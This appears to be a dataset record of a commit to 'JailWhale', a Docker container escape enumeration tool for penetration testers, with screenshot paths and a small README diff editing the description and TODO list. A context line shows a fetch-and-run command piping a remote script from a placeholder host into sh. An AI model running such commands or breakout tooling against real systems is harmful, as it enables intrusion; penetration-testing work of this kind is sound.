

add os and container id enumeration

Changed region(s): [[0.0308, 0.1224, 0.9538, 0.9796], [0.0308, 0.0306, 0.9538, 0.1531]]

diff --git a/README.md b/README.md
@@ -1,6 +1,6 @@
 # JailWhale
 
-Docker escape enumeration tool to be used when you end up in a docker container during a penetration test. I tried to minimize the dependencies, so a common linux-based system with `sh` should be able to run JailWhale. Further checks and methods to be added, when I encounter new techniques in CTFs.
+Docker escape enumeration tool to be used when you end up in a docker container during a penetration test. I tried to minimize the dependencies, so a common linux-based system with `sh` should be able to run JailWhale. Further checks and methods to be added, when I encounter new techniques in CTFs (pull requests welcome).
 
 ### Usage
 
@@ -17,9 +17,9 @@ curl http://<YOUR_IP>:8080/JailWhale.sh | sh
 
 ### TODO
 
-* Display container info (container id, hostname etc.)
 * More CVE-checks
 * More hints on exploiting capabilities
+* Add other techniques
 
 ### Credits
 Much love to https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout for documenting various techniques
